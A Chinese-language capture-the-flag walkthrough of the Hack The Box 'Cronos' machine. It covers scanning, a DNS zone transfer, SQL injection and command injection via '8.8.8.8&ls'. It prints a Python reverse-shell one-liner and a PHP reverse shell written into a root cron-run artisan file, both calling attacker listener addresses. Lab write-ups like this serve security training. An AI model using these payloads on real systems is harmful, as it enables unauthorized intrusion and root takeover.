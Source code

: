 # cronos

- **Cronos是hackthebox的一台中等难度的靶机**

- 按例nmap扫描端口和漏洞

![image-20211014021033596](http://cdn.mxrblog.cn/image-20211014021033596.png)

- nmap没扫出什么有价值的漏洞

![image-20211014021207296](http://cdn.mxrblog.cn/image-20211014021207296.png)

- 打开浏览器查看开放的内容，没啥有用的

![image-20211014021947859](http://cdn.mxrblog.cn/image-20211014021947859.png)

- gobuster目录扫描，也没什么意思

![image-20211014021418084](http://cdn.mxrblog.cn/image-20211014021418084.png)

- 在host文件中添加以下内容  (别问，问就是猜的)

`10.10.10.13   cronos.htb`

![image-20211015114349504](http://cdn.mxrblog.cn/image-20211015114349504.png)

- 查看能否登录这个域名

![image-20211015114537540](http://cdn.mxrblog.cn/image-20211015114537540.png)

- dirsearch走起

![image-20211015115004925](http://cdn.mxrblog.cn/image-20211015115004925.png)

- 这个域名没没有什么有用的东西，使用`host -l`查看是否还有其他域名

![image-20211015120436721](http://cdn.mxrblog.cn/image-20211015120436721.png)

- 将这些域名添加到host文件中

![image-20211015120632914](http://cdn.mxrblog.cn/image-20211015120632914.png)

- 这些域名分别登录后发现 admin.cronos.htb 这个域名内可以进行sql注入

![image-20211015120849405](http://cdn.mxrblog.cn/image-20211015120849405.png)

- 使用sql登录后查看

![image-20211015121343287](http://cdn.mxrblog.cn/image-20211015121343287.png)

- 输入框里面内容为： `8.8.8.8&ls`

![image-20211015121555225](http://cdn.mxrblog.cn/image-20211015121555225.png)

- 说明我们可以在输入框中发送一个反弹shell

- 使用python反弹shell，kali使用nc监听4443端口

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.23",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image-20211015122952627](http://cdn.mxrblog.cn/image-20211015122952627.png)

- 获取一个交互式shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20211015123119595](http://cdn.mxrblog.cn/image-20211015123119595.png)

- 获得user.txt

![image-20211015123327093](http://cdn.mxrblog.cn/image-20211015123327093.png)

- 使用提权工具linpeas.sh查看是否有可提权的文件存在

![image-20211015182856693](http://cdn.mxrblog.cn/image-20211015182856693.png)

- 发现定时执行的文件

![image-20211015184728900](http://cdn.mxrblog.cn/image-20211015184728900.png)

- 如果我们检查 /var/www/laravel/artisan 文件，我们会看到我们拥有它并且可以修改它！我们可以替换或附加 php 代码到这个文件来触发一个 root shell

![image-20211016004054448](http://cdn.mxrblog.cn/image-20211016004054448.png)

- 我们将用一个简单的一行 PHP 脚本替换该文件，以便在端口 9999 上向我们发送一个反向 shell，如下所示。之后，我们设置一个 netcat 侦听器并等待我们的 root shell 到达

```
echo '<?php $sock=fsockopen("10.10.14.4",9999);exec("/bin/sh -i <&3 >&3 2>&3"); ?>' > /var/www/laravel/artisan
```

![image-20211016004910449](http://cdn.mxrblog.cn/image-20211016004910449.png)

![image-20211016005231886](http://cdn.mxrblog.cn/image-20211016005231886.png)

![image-20211016005328866](http://cdn.mxrblog.cn/image-20211016005328866.png)
